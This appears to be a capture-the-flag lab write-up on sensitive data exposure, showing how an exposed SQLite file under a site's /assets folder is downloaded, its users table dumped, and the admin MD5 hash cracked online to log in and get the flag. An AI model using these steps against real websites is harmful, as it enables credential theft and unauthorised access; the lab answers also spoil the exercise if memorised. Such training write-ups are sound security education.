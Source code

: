# 03. Sensitive data exposure practical

[Part 1. Before we start]

- The most common way to store a large amount of data in a format that is easily accessible from many locations at once is in a database like sql or nosql.
- However, instead of setting up on servers for database such as mysql or mariadb, mongodb, the dev store db as files. These databases are referred to as "flat-file" databases, as they are stored as a single file on the computer. ⇒ easier than setting up a full database server

[?] What happens if the database is stored underneath the root directory of the website (i.e. one of the files that a user connecting to the website is able to access)?

- The user can download file.db and check the data in it ⇒ quite dangerous right !
- The most common (and simplest) format of flat-file database is an sqlite database.

[Part 2. Exploit]

Target: http://10.10.112.12/

1) What is the name of the mentioned directory? 

- Ctrl + u to open the source code of /login:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.10.112.12/login/            

<!DOCTYPE html>
<html>
        <head>
              ....
                <script src="../assets/js/loginScript.js"></script>
        </head>
        <body>
                <header>
                        <a id="home" href="/">Sense and Sensitivity</a>
                        <a id="login" href="/login">Login</a>
                </header>
                <div class=background></div>
//[*] /asset is mentioned dir right 
                <!-- Must remember to do something better with the database than store it in /assets... -->
                .....
</html>

```

**Result:** /asset

2) Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?

![Screenshot 2024-02-25 165511](https://github.com/vdh1612/CTF_write_up/assets/125654739/deac636d-6347-4e55-96a1-e438dc503240)


**Result:** webapp.db is the file contains sensitive data

3) Use the supporting material to access the sensitive data. What is the password hash of the admin user?

- If i open the file and cat the file, it just shows some data that i don’t really understand right now
- Now we will check database version of the file webapp.db

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ls -l webapp.db 
-rw-r--r-- 1 kali kali 28672 Feb 25 04:56 webapp.db
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ file webapp.db  
webapp.db: SQLite 3.x database, last written using SQLite version 3022000, file counter 255, database pages 7, 1st free page 5, free pages 1, cookie 0x6, schema 4, UTF-8, version-valid-for 255
//[*] sqlite database right
```

- Access the file

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sqlite3 webapp.db           
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> 
```

- Show all tables and dump information from table

```
sqlite> .tables
sessions  users   
sqlite> select * from users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0
```

- The syntax is a little different from mysql so i don’t know which column is this data represented for. So  in cheatsheet, we can use PRAGMA table_info(name_table); to show name of columns

```
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
```

- **Column Order:**
    - userID, username, password, admin
- **Data:**
    1. **`userID`**:
        - 4413096d9c933359b898b6202288a650
        - 23023b67a32488588db1e28579ced7ec
        - 4e8423b514eef575394ff78caed3254d
    2. **`username`**:
        - admin
        - Bob
        - Alice
    3. **`password`**:
        - 6eea9b7ef19179a06954edd0f6c05ceb
        - ad0234829205b9033196ba818f7a872b
        - 268b38ca7b84f44fa0a6cdc86e6301e0
    4. **`admin`**:
        - 1
        - 1
        - 0

**Result:** password hash of the admin user <=> ****6eea9b7ef19179a06954edd0f6c05ceb

4) Crack the hash

- Using https://crackstation.net/ to crack hash code

```

Hash	                            Type	Result
6eea9b7ef19179a06954edd0f6c05ceb	md5	qwertyuiop
```

- Login as admin:

+) Username: admin

+) Password: qwertyuiop

**Final result:** Login as admin ⇒ THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}
